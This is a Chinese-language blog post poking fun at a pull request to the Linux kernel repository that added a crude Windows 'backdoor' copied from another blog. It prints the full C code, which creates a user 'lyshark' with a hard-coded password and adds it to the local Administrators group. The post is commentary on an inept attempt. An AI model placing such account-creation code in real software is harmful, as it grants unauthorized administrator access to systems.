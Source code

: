 ```yaml
---
# type: docs 
title: Linux 笑传之 windows.h
date: 2024-12-07 17:39:09+08:00
featured: false
comment: true
toc: true
reward: true
pinned: false
carousel: false
description: 关于linux仓库被推送带有windows.h的后门那些事
series:
categories: [Small Talk]
tags: []
images: []
---
```


前些天看到了[Create usr.c by axhuoga1 · Pull Request #1086 · torvalds/linux - WaybackMachine](https://web.archive.org/web/20241129140736/https://github.com/torvalds/linux/pull/1086/files)，被*Windows.h*给看乐了，后面又看到别人的评论，居然是从[某些地方](https://www.cnblogs.com/LyShark/p/13420509.html)抄来的"后门"，令人忍俊不禁。

```c

#include <stdio.h>
#include <assert.h>
#include <windows.h> 
#include <lm.h>
#pragma comment(lib,"netapi32")
void AddUser(LPWSTR UserName, LPWSTR Password)
{
    USER_INFO_1 user;
    user.usri1_name = UserName;
    user.usri1_password = Password;
    user.usri1_priv = USER_PRIV_USER;
    user.usri1_home_dir = NULL;
    user.usri1_comment = NULL;
    user.usri1_flags = UF_SCRIPT;
    user.usri1_script_path = NULL;
    if (NetUserAdd(NULL, 1, (LPBYTE)&user, 0) == NERR_Success)
        printf("创建用户完成 \n");
    LOCALGROUP_MEMBERS_INFO_3 account;
    account.lgrmi3_domainandname = user.usri1_name;
    if (NetLocalGroupAddMembers(NULL, L"Administrators", 3, (LPBYTE)&account, 1) == NERR_Success)
        printf("添加到组完成 \n");
}
void EnumUser()
{
    LPUSER_INFO_0 pBuf = NULL;
    LPUSER_INFO_0 pTmpBuf;
    DWORD dwLevel = 0;
    DWORD dwPrefMaxLen = MAX_PREFERRED_LENGTH;
    DWORD dwEntriesRead = 0, dwTotalEntries = 0, dwResumeHandle = 0;
    DWORD i;
    NET_API_STATUS nStatus;
    LPTSTR pszServerName = NULL;

    do
    {
        nStatus = NetUserEnum((LPCWSTR)pszServerName, dwLevel, FILTER_NORMAL_ACCOUNT,
            (LPBYTE*)&pBuf, dwPrefMaxLen, &dwEntriesRead, &dwTotalEntries, &dwResumeHandle);

        if ((nStatus == NERR_Success) || (nStatus == ERROR_MORE_DATA))
        {
            if ((pTmpBuf = pBuf) != NULL)
            {
                for (i = 0; (i < dwEntriesRead); i++)
                {
                    assert(pTmpBuf != NULL);

                    if (pTmpBuf == NULL)
                    {
                        break;
                    }
                    wprintf(L"%s\n", pTmpBuf->usri0_name, pTmpBuf);
                    pTmpBuf++;
                }
            }
        }

        if (pBuf != NULL)
        {
            NetApiBufferFree(pBuf);
            pBuf = NULL;
        }
    } while (nStatus == ERROR_MORE_DATA);
    NetApiBufferFree(pBuf);
}

int main(int argc, char *argv[])
{
    AddUser(L"lyshark", L"123123");
    EnumUser();

    system("pause");
    return 0;
}

```

看了一下除了删除了一些注释以外，基本上和原文是一致的，甚至连创建的用户“lyshark”都是原博主的用户名。

提交者axhuoga1的[主页](https://web.archive.org/web/20241123003548/https://github.com/axhuoga1)，大部分Repo都是一些很简单的项目（猜数字小游戏，贪吃蛇），看得出来这位是真的纯真。

可惜的是他的账号在前几天就被删除了，有些遗憾，不过有人给他Archive下来了，也是蛮有意思的。
